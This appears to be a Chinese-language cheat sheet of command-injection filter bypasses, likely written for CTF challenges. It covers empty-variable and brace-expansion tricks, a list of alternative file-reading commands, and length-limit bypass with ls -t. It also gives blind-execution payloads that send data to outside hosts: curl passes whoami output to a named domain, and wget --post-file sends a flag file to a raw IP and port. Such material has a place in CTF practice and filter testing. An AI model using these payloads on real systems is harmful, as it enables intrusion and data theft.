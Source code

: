 
### 关键词绕过

> 



<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210528093241745.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210528093649570.png#pic_center"/>

### 空变量

> 
$*和$@，$x(x 代表 1-9)，${x}(x&gt;=10)：比如`ca${21}t a.txt`表示`cat a.txt`<br/> 在没有传入参数的情况下，这些特殊字符默认为空，如下:



### 花括号的用法

> 
在Linux bash中还可以使用`{OS_COMMAND,ARGUMENT}`来执行系统命令`{cat,flag}`


### 无回显的命令执行

> 
可以通过curl命令将命令的结果输出到访问的url中：


```
curl www.rayi.vip/`whoami`

```

> 
在服务器日志中可看到：`xx.xx.xx.xx - - [12/Aug/2019:10:32:10 +0800] "GET /root HTTP/1.1" 404 146 "-" "curl/7.58.0"`，这样，命令的回显就能在日志中看到了


### 读文件命令

```
ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sort|cut|xxd

```

> 
无回显的情况下wget带出：`wget --post-file flag 47.100.120.123:2333`


### 长度绕过

> 
详细见[P牛文章](https://www.leavesongs.com/SHARE/some-tricks-from-my-secret-group.html)<br/> linux命令执行的时候可以使用反斜杠换行；bash脚本中同样适用上面的规则；可以用文件名加反斜杠构成命令，使用ls -t &gt; o 将文件名输出到文件，使用bash o执行脚本


> 
构造ls -t
